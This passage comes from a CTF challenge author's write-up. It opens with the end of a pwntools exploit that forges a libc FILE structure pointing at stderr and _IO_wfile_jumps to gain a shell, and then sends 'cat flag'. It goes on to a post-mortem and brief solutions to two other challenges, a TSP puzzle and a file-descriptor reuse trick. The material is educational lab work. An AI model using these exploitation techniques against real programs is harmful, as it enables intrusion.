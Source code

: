 ```python
    file._offset = 0
    file._old_offset = 0
    file.unknown2 = b"\x00"*24+ p32(1) + p32(0) + p64(0) + \
        p64(libc.sym["_IO_2_1_stderr_"] - 0x10) + \
        p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58)
    change_bytes(io, target, 0, bytes(file))

    io.sendline(b"cat flag")
    io.sendline(b"cat flag")

    io.recvuntil(b"BtSCTF")
    io.interactive()


if __name__ == "__main__":
    main()
```

### Post-mortem

There was an unintended in the `ask_for_index()` function for negative indexes :(. Skill issue on my part.
You can see the Discord server of the competition for other teams' solves.
In hindsight, the unintended was probably a good thing. Thanks to it we had a
challenge that was easier than the other two resulting in a better solve distribution.

## Other challenges I made

I also made two other challanges, Rainbom Bash Adventure (106 solves)
and stupid fd manager (35 solves), but they were pretty simple and not
that interesting compared to the previous ones, so I won't dedicate a
separate section for them.

For Rainbom Bash Adventure, the challenge is a Ren'Py visual
novel. You can find the code of the game in `./game/script.rpy`. There
what you have to do is to parse all the choices as a weighted graph
and solve the TSP problem using heuristics. You can tell it's a TSP
problem by the dialogue: "Help Rainbom Bash smash all the clouds in
the fastest possible way and return to the origin. I heard it's a well
known problem....". Actually, because of how I generated the graph,
you could just do a nearest neighbour algorithm instead of a heuristic
and I was of aware that but I left it as an unintended-intended, since
it made the generating of the graph stupid simple :P.

For stupid fd manager, the solve was about abusing two facts:
- stdio in libc is buffered.
- Opening a file opens the file in the lowest possible file descriptor.

So the solve to write in one line `3 0 2 ./flag`.
The program buffers the whole line -> it closes file descriptor 0 (which is standard input) ->
it opens ./flag as file descriptor 0 -> scanf() and family now will do io operations
on the flag instead of standard input, which shows us the flag.

